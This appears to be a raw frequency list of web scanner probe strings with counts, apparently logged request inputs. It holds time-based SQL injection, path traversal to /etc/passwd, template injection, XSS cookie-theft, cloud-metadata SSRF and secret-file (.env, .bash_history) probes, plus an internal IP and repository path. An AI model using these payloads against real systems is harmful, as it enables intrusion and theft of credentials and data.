 # Need further filter for these

sleep(20.to_i),1
#{31337*31337},1
$%257B(923418 923418)%257D/2000,1
$%7B(133832 133832)%7D/1,1
$%7B(412847 412847)%7D/1,1
$%7B(480736 480736)%7D/1,1
$%7B(638 638)%7D/1,1
$%7B(809 809)%7D/1,1
$%7B(905798 905798)%7D/1,1
$%7B(951592 951592)%7D/1,1
%20%7C%7C%28%28select%20count%28pg_sleep%2810%29%29%29%29%20%7C%7C,7
%20%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29%20%7C%7C,7
%201%20JfICOXiqqf%20foo,1
%201%20JyKpaivBRU%20foo,1
%201%20rzHkJcaFMO%20foo,1
%201%20sJZGTOgBsL%20foo,1
%201%20wVefaTPFcD%20foo,1
%221%22JfICOXiqqf%22foo,1
%221%22JyKpaivBRU%22foo,1
%221%22rzHkJcaFMO%22foo,1
%221%22sJZGTOgBsL%22foo,1
%221%22wVefaTPFcD%22foo,1
%2520%257C%257C%2528%2528select%2520count%2528pg_sleep%252810%2529%2529%2529%2529%2520%257C%257C,1
%2520%257C%257C%2528DBMS_PIPE.RECEIVE_MESSAGE%2528CHR%252841%2529%252C10%2529%2529%2520%257C%257C,1
%25202000%2520FBQeoOstQc%2520foo,1
%2520AND%2520101%2520like%2520102%2520OR%25201234%2520like%25207275661,1
%2520AND%252013%2520like%252013%2520OR%25201234%2520like%25207274322,1
%2520AND%252055%2520like%252055%2520OR%25201234%2520like%25207275895,1
%2520AND%252059%2520like%252059%2520OR%25201234%2520like%25207275281,1
%2520AND%252062%2520like%252062%2520OR%25201234%2520like%25207270885,1
%2520AND%252067%2520like%252068%2520OR%25201234%2520like%25207272315,1
%25222000%2522FBQeoOstQc%2522foo,1
%25252fetc%25252fpasswd,1
%252565%25256e%252563%252556%252547%252568%252544%25257a,1
%2528%2528SELECT%25201%2520FROM%2520%2528SELECT%2520SLEEP%252810%2529%2529A%2529%2529,1
%2528%2528select%2520count%2528pg_sleep%252810%2529%2529%2529%2529,1
%2528%2528select/%252Ax%252A/count%2528pg_sleep%252810%2529%2529%2529%2529,1
%2528DBMS_PIPE.RECEIVE_MESSAGE%2528CHR%252841%2529%252C10%2529%2529,1
%2529%2520AND%252017%2520like%252018%2520OR%25201234%2520like%2520%25287277275,1
%2529%2520AND%252019%2520like%252019%2520OR%25201234%2520like%2520%25287273310,1
%2529%2520AND%252037%2520like%252038%2520OR%25201234%2520like%2520%25287272392,1
%2529%2520AND%252038%2520like%252038%2520OR%25201234%2520like%2520%25287279477,1
%2529%2520AND%252066%2520like%252066%2520OR%25201234%2520like%2520%25287277154,1
%2529%2520AND%252078%2520like%252078%2520OR%25201234%2520like%2520%25287276524,1
%252B%2528%2528SELECT%25201%2520FROM%2520%2528SELECT%2520SLEEP%252810%2529%2529A%2529%2529%252B,1
%252C%2528SELECT%25201%2520FROM%2520%2528SELECT%2520SLEEP%252810%2529%2529A%2529,1
%252fetc%252fpasswd,2
%255Cu0065%255Cu006e%255Cu0063%255Cu0058%255Cu0046%255Cu004f%255Cu0054%255Cu0064,1
%255Cx65%255Cx6e%255Cx63%255Cx46%255Cx5a%255Cx6d%255Cx66%255Cx73,1
%2565%256e%2563%2546%2543%254d%2556%2541,1
%2565%256e%2563%254a%2544%2565%2564%2541,1
%2565%256e%2563%2551%254c%2554%2578%2569,1
%2565%256e%2563%2555%2556%254f%2578%2572,1
%2565%256e%2563%2564%2567%2561%257a%254a,1
%2565%256e%2563%2565%254d%254c%256f%2553,1
%2565%256e%2563%2575%2566%256a%2575%2570,1
%25c1%25a5%25c1%25ae%25c1%25a3%25c1%25a7%25c1%25a8%25c1%258e%25c1%25a3%25c1%25b3,1
%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29,7
%28%28SELECT/%2Ax%2A/1/%2Ax%2A/FROM/%2Ax%2A/%28SELECT/%2Ax%2A/SLEEP%2810%29%29A%29%29,2
%28%28select%20count%28pg_sleep%2810%29%29%29%29,7
%28%28select/%2Ax%2A/count%28pg_sleep%2810%29%29%29%29,2
%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29,7
%2Ax%2A/%7C%7C%28%28select/%2Ax%2A/count%28pg_sleep%2810%29%29%29%29/%2Ax%2A/%7C%7C,1
%2Ax%2A/%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29/%2Ax%2A/%7C%7C,1
%2B%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29%2B,7
%2B%28%28SELECT/%2Ax%2A/1/%2Ax%2A/FROM/%2Ax%2A/%28SELECT/%2Ax%2A/SLEEP%2810%29%29A%29%29%2B,2
%2fetc%2fpasswd,25
%3C1KNX%3C1,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0042%5Cu0069%5Cu004b%5Cu005a%5Cu0050,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0043%5Cu004e%5Cu0062%5Cu0057%5Cu005a,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0044%5Cu0059%5Cu0045%5Cu0044%5Cu0045,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0047%5Cu005a%5Cu0042%5Cu007a%5Cu006a,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0050%5Cu006f%5Cu0056%5Cu004e%5Cu0044,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0051%5Cu006c%5Cu0077%5Cu0062%5Cu0070,1
%5Cu0065%5Cu006e%5Cu0063%5Cu006b%5Cu007a%5Cu0074%5Cu0069%5Cu006c,1
%5Cx65%5Cx6e%5Cx63%5Cx43%5Cx4b%5Cx63%5Cx6c%5Cx51,1
%5Cx65%5Cx6e%5Cx63%5Cx47%5Cx52%5Cx69%5Cx4c%5Cx75,1
%5Cx65%5Cx6e%5Cx63%5Cx4a%5Cx61%5Cx64%5Cx77%5Cx4a,1
%5Cx65%5Cx6e%5Cx63%5Cx4c%5Cx6e%5Cx54%5Cx41%5Cx78,1
%5Cx65%5Cx6e%5Cx63%5Cx58%5Cx65%5Cx68%5Cx69%5Cx6e,1
%5Cx65%5Cx6e%5Cx63%5Cx67%5Cx71%5Cx63%5Cx73%5Cx51,1
%5Cx65%5Cx6e%5Cx63%5Cx77%5Cx6c%5Cx62%5Cx78%5Cx4b,1
%5cweb-console,1
%65%6e%63%41%71%69%5a%4f,1
%65%6e%63%42%44%6d%73%65,1
%65%6e%63%44%76%47%76%48,1
%65%6e%63%46%76%76%57%65,1
%65%6e%63%47%50%6e%5a%7a,1
%65%6e%63%4d%53%50%4d%47,1
%65%6e%63%4d%73%79%68%56,1
%65%6e%63%4e%77%63%4c%58,1
%65%6e%63%4f%6b%46%6c%52,1
%65%6e%63%51%77%6f%50%4c,1
%65%6e%63%53%67%52%64%5a,1
%65%6e%63%53%6a%6d%55%45,1
%65%6e%63%56%41%6a%51%77,1
%65%6e%63%59%41%75%46%62,1
%65%6e%63%59%59%59%75%54,1
%65%6e%63%61%70%71%6f%4e,1
%65%6e%63%64%4e%6e%6b%6a,1
%65%6e%63%66%47%63%6a%6f,1
%65%6e%63%69%6f%44%47%49,1
%65%6e%63%69%71%65%4f%44,1
%65%6e%63%6e%59%77%69%6c,1
%65%6e%63%71%6e%6a%53%64,1
%65%6e%63%71%76%73%44%56,1
%65%6e%63%74%65%73%74%6d%78%52%53%58,1
%65%6e%63%77%76%4d%6f%4b,1
%65%6e%63%78%51%4a%65%42,1
%65%6e%63%7a%54%58%73%79,1
%C4%8Dular,1
%EF%BC%B3%E2%84%AA%EF%BD%85%EF%BD%8E%EF%BD%83%EF%BC%A5%EF%BD%8E%EF%BD%94%EF%BC%AC%EF%BD%89,1
%EF%BC%B3%E2%84%AA%EF%BD%85%EF%BD%8E%EF%BD%83%EF%BC%B2%EF%BD%98%EF%BC%AF%EF%BC%AE%EF%BD%8D,1
%c1%a5%c1%ae%c1%a3%c1%82%c1%96%c1%86%c1%ad%c1%8f,1
%c1%a5%c1%ae%c1%a3%c1%88%c1%8e%c1%91%c1%ae%c1%84,1
%c1%a5%c1%ae%c1%a3%c1%88%c1%ae%c1%a7%c1%b7%c1%96,1
%c1%a5%c1%ae%c1%a3%c1%96%c1%98%c1%ad%c1%ad%c1%b4,1
%c1%a5%c1%ae%c1%a3%c1%a2%c1%a9%c1%8d%c1%ba%c1%ac,1
%c1%a5%c1%ae%c1%a3%c1%b6%c1%b5%c1%aa%c1%87%c1%94,1
%c1%a5%c1%ae%c1%a3%c1%b9%c1%a1%c1%89%c1%94%c1%94,1
%ef%bc%82%20%7C%7C%28%28select%20count%28pg_sleep%2810%29%29%29%29%20%7C%7C%ef%bc%82,7
%ef%bc%82%20%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29%20%7C%7C%ef%bc%82,7
%ef%bc%82%2B%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29%2B%ef%bc%82,7
%ef%bc%87%20%7C%7C%28%28select%20count%28pg_sleep%2810%29%29%29%29%20%7C%7C%ef%bc%87,7
%ef%bc%87%20%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29%20%7C%7C%ef%bc%87,7
%ef%bc%87%2B%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29%2B%ef%bc%87,7
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%a4%ef%bd%99%ef%bc%a2%ef%bc%aa%ef%bd%92,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%aa%ef%bd%95%ef%bc%a5%ef%bd%82%ef%bc%a3,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%ad%ef%bd%84%ef%bd%95%ef%bd%95%ef%bd%91,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%af%ef%bc%ac%ef%bd%89%ef%bc%a8%ef%bc%a9,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b1%ef%bc%b6%ef%bd%9a%ef%bd%82%ef%bd%86,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b4%ef%bd%86%ef%bc%a7%ef%bc%b3%ef%bd%86,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b6%ef%bd%82%ef%bc%a9%ef%bc%b1%ef%bd%8d,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b9%ef%bd%8c%ef%bc%a7%ef%bd%90%ef%bc%aa,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%82%ef%bd%84%ef%bc%a5%ef%bd%83%ef%bc%a7,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%85%ef%bc%a2%ef%bd%90%ef%bc%ad%ef%bd%92,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%85%ef%bd%86%ef%bc%a6%ef%bd%8b%ef%bc%a4,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%8b%ef%bd%95%ef%bc%ad%ef%bd%93%ef%bc%a8,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%93%ef%bc%a4%e2%84%aa%ef%bd%8f%ef%bc%a3,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%9a%ef%bc%a5%ef%bc%a4%ef%bc%a7%ef%bc%b4,1
&#039; alert(document.cookie) &amp;#039,2
&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#069;&#103;&#080;&#087;&#118;,1
"(DBMS_PIPE.RECEIVE_MESSAGE(CHR(41),10))",23
*.doc,1
*/wkJtPzv,1
*pdf,1
",",1
. sleep(intval(20)),1
..%3B/web-console,1
...,1
.....,1
../,1
../1,9
../2000,16
../2021,1
..\\,1
..\\1,9
..\\2000,16
..\\2021,1
./1,9
./2000,16
./2021,1
.1080/17429145.2018.1550219.,1
.\\,1
.\\1,9
.\\2000,16
.\\2021,1
.bash_history,6
.bash_logout,1
.ens,3
.env,6
.jpg,1
.listing,1
.png,1
.tex,2
.travis.yml,6
.wav,1
/%2Ax%2A/%7C%7C%28%28select/%2Ax%2A/count%28pg_sleep%2810%29%29%29%29/%2Ax%2A/%7C%7C,2
/%2Ax%2A/%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29/%2Ax%2A/%7C%7C,2
///ptst.io/js_include_test,27
//ptst.io/js_include_test,27
/etc/passwd,2
/ptst.io/js_include_test,27
testheaderxxx: testval1",9
1 . sleep(intval(20)),9
1 GicNzaROCL foo,2
1 HEpeXABNpg foo,2
1 HToINiiOfu foo,2
1 IHOHMoAmri foo,2
1 JkGznNUecW foo,1
1 ORDER BY 1#,2
1 ORDER BY 1268#,1
1 ORDER BY 1445#,1
1 cDMhkauVQi foo,1
1 srFsdQgGuf foo,2
1 xjnJNpmyiH foo,2
1#{31337*31337},9
1${31337*31337},15
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#083;&#110;&#106;&#078;&#088;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#086;&#067;&#077;&#112;&#080;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#099;&#121;&#103;&#107;&#112;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#104;&#067;&#080;&#084;&#102;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#110;&#118;&#097;&#077;&#067;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#112;&#104;&#078;&#079;&#108;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#120;&#089;&#082;&#080;&#116;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#121;&#114;&#072;&#085;&#084;,1
1&lt;IXGjGnT,1
1&lt;JMbAwfH,1
1&lt;a&gt;LzhBl&lt;/a&gt;,1
1&lt;a&gt;WudMB&lt;/a&gt;,1
1&lt;a&gt;eoBtn&lt;/a&gt;,1
1&lt;a&gt;rjmKU&lt;/a&gt;,1
1&lt;a&gt;sAObV&lt;/a&gt;,1
1&lt;eZGHgaG,1
1&lt;pxjGVUV,1
1&lt;qerNbEu,1
1);SELECT SLEEP(5)#,2
1*/MjamFwE,1
1*/QWVxqNR,1
1*/VBHOMbJ,1
1*/aYrqASn,1
1*/bXukwEk,1
10.48.104.55:/data/repositories/2/nw/2e/f9/71/247783679/231841558.git,1
12e6ec0874f8f0a400b12e162345334012e,1
12scnggjtcyfjyu1234567890poiiijjggggggffffffffffffffffffffffffffffffff,1
192.168.0.1,1
192.168.1.1,1
1;SELECT SLEEP(5)#,2
1@169.254.169.254/latest/meta-data/,6




;foo
/home
()
printf
TrackingId
